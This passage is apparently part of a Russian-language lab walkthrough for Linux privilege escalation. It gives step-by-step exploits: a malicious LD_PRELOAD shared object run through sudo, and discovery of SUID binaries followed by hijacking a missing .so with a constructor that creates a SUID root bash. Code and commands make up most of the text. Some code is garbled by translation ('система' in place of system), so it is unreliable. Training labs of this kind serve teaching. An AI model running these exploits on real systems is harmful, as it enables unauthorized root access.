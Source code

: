 1. Откройте текстовый редактор и введите:
```commandline
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    система("/bin/bash");
}
```
2. Сохраните файл как xc
3. В командной строке введите:
`gcc -fPIC -shared -o /tmp/x.so xc -nostartfiles`
4. В командной строке введите:
`sudo LD_PRELOAD=/tmp/x.so apache2`
5. В командной строке введите: id
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```
## Задание 11
Обнаружение

Linux- виртуальная машина

1. В командной строке введите: `find / -type f -perm -04000 -ls 2>/dev/null`
2. В выводе обратите внимание на все двоичные файлы SUID.
3. В командной строке введите:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. В выводе обратите внимание, что в доступном для записи каталоге отсутствует файл .so.

Эксплуатация Linux- виртуальная машина

5. В командной строке введите: `mkdir /home/user/.config`
6. В командной строке введите: `cd /home/user/.config`
7. Откройте текстовый редактор и введите:
```commandline
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
8. Сохраните файл как libcalc.c
9. В командной строке введите:
`gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
10. В командной строке введите: `/usr/local/bin/suid-so`
11. В командной строке введите: `id`
### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```
